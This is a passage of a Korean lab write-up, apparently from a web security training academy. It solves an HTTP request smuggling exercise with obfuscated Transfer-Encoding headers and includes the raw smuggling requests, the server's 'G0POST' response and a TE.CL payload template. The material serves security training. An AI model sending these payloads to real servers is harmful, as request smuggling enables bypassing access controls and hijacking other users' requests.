응답 3. 이번에는 `"Unrecognized method G0POST"` 라는 응답이 돌아왔다. 스머글링이 가능해보인다. 

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 28

"Unrecognized method G0POST"
```

### 분석
요청2가 핵심인 것으로 보인다. 프론트 엔드는 `Transfer-Encoding` 헤더를 보고 이 요청을 백엔드로 보냈지만, 백엔드는 `Transfer-Encoding`헤더가 아니라 `Transfer-encoding` 헤더를 인식하고 `identity`라는 의미없는 값이 있으므로 CL헤더를 보는 것 같다. 따라서 3바이트 `1\r\n` 까지를 하나의 요청을 처리한다. 그 다음의 요청 `G0`는 요청3(`POST /`)과 함께 처리되어 `"Unrecognized method G0POST"`라는 응답이 돌아오는 것으로 보인다. 이 것은 결과적으로 동작상으로는 TE.CL과 동일하다. 

```http
POST / HTTP/1.1
Host: 0aca00b80465a02381d9cf8a001f0091.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Transfer-Encoding: chunked
Connection: close
Transfer-encoding: identity
Content-length: 3

1\r\n
G\r\n
0\r\n
\r\n
```

## 2. 페이로드 준비 
TE.CL과 같은 원리이므로 페이로드도 그에 맞춰서 준비하면 된다. 스머글링 문제2의 페이로드를 참고해서 준비한다. 

다음이 TE.CL의 기본형이다. 

```http
POST / HTTP/1.1
Host: xxxx.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Transfer-Encoding: chunked

x=1
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```
